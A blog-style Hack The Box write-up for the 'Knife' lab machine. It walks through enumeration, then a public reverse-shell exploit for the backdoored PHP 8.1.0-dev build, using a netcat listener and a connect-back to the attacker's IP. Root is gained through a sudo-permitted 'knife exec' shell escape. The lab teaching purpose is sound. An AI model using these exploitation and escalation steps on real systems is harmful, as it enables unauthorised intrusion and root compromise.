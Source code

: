 ```yaml
---
layout: post
title: "HTB - Knife"
author: "joelczk"
tags: HTB
excerpt_separator: <!--more-->
---
```

I've just completed Knife from HTB! In my opinion, Knife is a rather straight forward box that makes use of existing backdoors. Here's a quick writeup on how I solved this box.

<!--more-->

## HTB - Knife
**Box** : Knife\
**IP Address** : 10.10.10.242\
**Operating System** : Linux

## Remarks

- Google is your best friend!
- Also not to forget, `exploitdb` :)

### Enumeration
As usual, we will first start off with our normal Nmap scans to identify the possible open ports and the operating systems behind each port. This box is quite simple, with only 2 open ports - `22` and `80`.

Port `22` belongs to an SSH server, while port `80` belongs to a web server running on `Apache 2.4.41 (Ubuntu)`

Visiting the web server does not yield any interesting results providing hints to any exploitable vulnerabilities. So, we will go on to scan the website with `Nikto`, which uncovered an interested information that the web server has an `x-powered-by` header of `PHP/8.1.0-dev`

```bash
+ Server: Apache/2.4.41 (Ubuntu)
+ Retrieved x-powered-by header: PHP/8.1.0-dev
```

### Exploitation

The first step that I took was to try to exploit the `Apache/2.4.41` by searching for vulnerabilities related to it. CVE 2020-1927 was found to be the most promising exploit related to it, but unfortunately I was unable exploit it on the website (LIFE OF A SAD HTB PLAYER IN A NUTSHELL....)

The second step that I tried was to look for potential exploits for `PHP/8.1.0-dev`. This time though, I was able to find potential exploits on this [repository](https://github.com/flast101/php-8.1.0-dev-backdoor-rce). This repository provided 2 different exploits, namely a `reverse shell exploit` and a `RCE exploit`. For this case, I choose to do a `reverse shell exploit` first but thankfully it worked!! (Actually I was just lazy and just took a random exploit to try it out XD)

```bash
git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git
mv revshell_php_8.1.0-dev.py exploit_revshell.py 
```

Now, all that is left is for us to first open a listener on the attacker's machine using `nc -nlvp 3000` and execute the exploit script on the victim's machine using `python3 exploit_revshell.py http://10.10.10.242 <Your IP address> 3000 `

Now, we have successfully obtained a reverse shell! So what's next? Of course, we have to stabilize the shell :-)

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000
listening on [any] 3000 ...
connect to [10.10.16.250] from (UNKNOWN) [10.10.10.242] 48826
bash: cannot set terminal process group (1036): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
james@knife:/$ cd home
cd home
```

### Obtaining user flag

Now, all that is left for us is to obtain the user flag! Easy Peezy

```bash
james@knife:/home$ ls
ls
james
james@knife:/home$ cd james
cd james
james@knife:~$ ls
ls
user.txt
james@knife:~$ cat user.txt
cat user.txt
```

### Obtaining system/root flag

Wait! But we are not done with the machine yet! There is still another system flag yet to be discovered.

So, let's run `sudo -l` to check for the permissions. What we noticed was that `/usr/bin/knife` can be executed with root privileges, without the need for any password :o

```bash
james@knife:~$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

But, here comes the problem - What exactly is this `/usr/bin/knife`? So, a very quick google search tells me that `/usr/bin/knife` belongs to an open-source [repository](https://github.com/chef/chef) which serves as an infrastructure server.

So now comes the next question - How can `/usr/bin/knife` be exploited? Fortunately, the answer lies in the documentation of `knife`. Reading the documentation, I discovered that there is a `knife exec` command that allows me to execute scripts using `knife`. This could potentially allow us to obtain a root shell.

Now, lets put our theory to the test! And, it worked! All we have to do is to stabilize the shell and obtain the system flag.

```bash
james@knife:~$ sudo /usr/bin/knife exec --exec "exec '/bin/sh -i'"
sudo /usr/bin/knife exec --exec "exec '/bin/sh -i'"
# python3 -c 'import pty; pty.spawn("/bin/bash")'   
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@knife:/home/james# cd /root
cd /root
root@knife:~# ls
ls
delete.sh  root.txt  snap
root@knife:~# cat root.txt
cat root.txt
```